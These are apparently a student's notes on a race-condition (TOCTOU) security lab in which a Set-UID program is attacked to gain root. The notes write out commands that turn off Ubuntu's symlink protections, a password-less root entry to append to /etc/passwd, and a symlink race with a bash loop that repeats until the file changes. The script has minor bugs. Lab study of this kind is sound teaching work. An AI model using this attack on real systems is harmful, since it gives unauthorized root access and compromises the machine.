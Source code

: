 # Race Condition Vulnerability Lab
- a race condition occurs when multiple processes access and manipulate the same data concurrently, and the outcome of the execution depends on the particular order in which the access takes place
- If a privileged program has a race-condition vulnerability, attackers can run a parallel process to "race" against the privileged program, with an intention to change the behaviors of the program
- topics:
    - race condition
    - sticky symlink protection
    - principle of least privilege

## Environment Setup
- Turn off countermeasures
    - Ubuntu has a built-in protection that restricts who can follow a symlink, symlinks in world-writable sticky directories (e.g., `/tmp`) cannot be followed if the follower and directory owner do not match the symlink owner
        - `$ sudo sysctl -w fs.protected_symlinks=0`
    - Ubuntu 20.04 introduces another security mechanism that prevents the root form writing files in `/tmp` that are owned by others
        - `$ sudo sysctl fs.protected_regular=0`

## Task 1: Choosing Our Target
- the entry for `root` in `/etc/passwd`: `root:x:0:0:root:/root:/bin/bash`
- a general entry contains 7 fields
    - `username:password:uid:gid:user_info:home_directory:login_shell`
    - the `password` field used to contain an encrypted password, now password hashes will be stored in a separate file `/etc/shadow` (in this case, this field will be `x`)
- it is more difficult to exploit race condition to append to both `/etc/passwd` and `/etc/shadow`, instead, we can put password in the second field (`x`) of an entry in `/etc/passwd` 
- the magic value in Ubuntu live CD for a passowrd-less account: `U6aMy0wojraho`, if we put this value in the password field of a user entry, we only need to hit the return key when prompted for a password
- test
    - append `test:U6aMy0wojraho:0:0:test:/root:/bin/bash` to `/etc/passwd`
        ```
        seed@...$ su test
        Password: (Press Enter)
        root@...#
        ```

## Task 2: Launching the Race Condition Attack
- goal: exploit race condition vulnerability in a vulnerable `Set-UID` program `vulp.c`, and the ultimate goal is to get root privilege, the critical step is to make `/tmp/XYZ` point to the `/etc/passwd` within the window between check (`access(fn, W_OK)`) and use (`fopen(fn, "a+")`)

### Task 2.A: Simulating a Slow Machine
- add `sleep(10)` between `access()` and `fopen()`
- invoke `vulp`
    ```
    $ ./vulp
    test:U6aMy0wojraho:0:0:test:/root:/bin/bash
    ```
- create symlink after enter the content to `vulp`
    ```
    $ ln -sf /etc/passwd /tmp/XYZ
    (after vulp finishes executing)
    $ su test
    Password: (Press Enter)
    # whoami
    root
    ```

### Task 2.A: The Real Attack
- remove `sleep()`
- typicall strategy is to run an attack program in parallel, perfect timing is very hard to achieve
- write the attack program in C:
    - `symlink("/etc/passwd", "/tmp/XYZ");`
    - `unlink("/tmp/XYZ");`
- automatically running `vulp` and detecting whether the attack is successful by monitoring whether `/etc/passwd` changes with a script
    ```
    #!/bin/bash

    CHECK_FILE="ls -l /etc/passwd"
    old=$($CHECK_FILE)
    new=$($CHECK_FILE)
    while ["$old"=="$new"]
    do
        echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp
        new=$(CHECK_FILE)
    done
    echo "STOP... The passwd file has been changed"
    ```